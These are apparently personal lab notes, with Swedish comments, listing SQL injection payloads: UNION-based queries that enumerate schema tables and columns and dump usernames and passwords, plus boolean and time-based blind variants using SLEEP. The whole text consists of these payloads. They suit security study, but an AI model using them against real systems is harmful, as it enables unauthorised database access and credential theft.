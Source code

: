# SQL-injections

### Basics
;-- bindestreck = kommentar efter

0 UNION SELECT 1,2,database()

0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'

	
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'

0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users


UNION ALL SELECT column_name,null,null,null,null FROM information_schema.columns WHERE table_name="people" 

 
**Vid True/False return, behöver man ta en bokstav i taget för tabell och table, likt det nedan**

admin123' UNION SELECT 1,2,3 where database() like 's%';--

admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--

Timebased
, fördröjer request för att verifiera resultat, fel går fort, rätt tar tid

referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'u%';--

‘UNION SELECT SLEEP(1),2 FROM information_schema.tables WHERE table_schema = 'sqli_four' and table_name like 'use%';--


UNION SELECT SLEEP(1),2 FROM information_schema.columns where table_name='users' and column_name like 'usern%';--

UNION SELECT SLEEP(1),2 FROM information_schema.columns where table_name='users' and column_name like 'password';--

UNION SELECT SLEEP(1),2 FROM sqli_four.users where username like "admin" and password like "4961" ;--


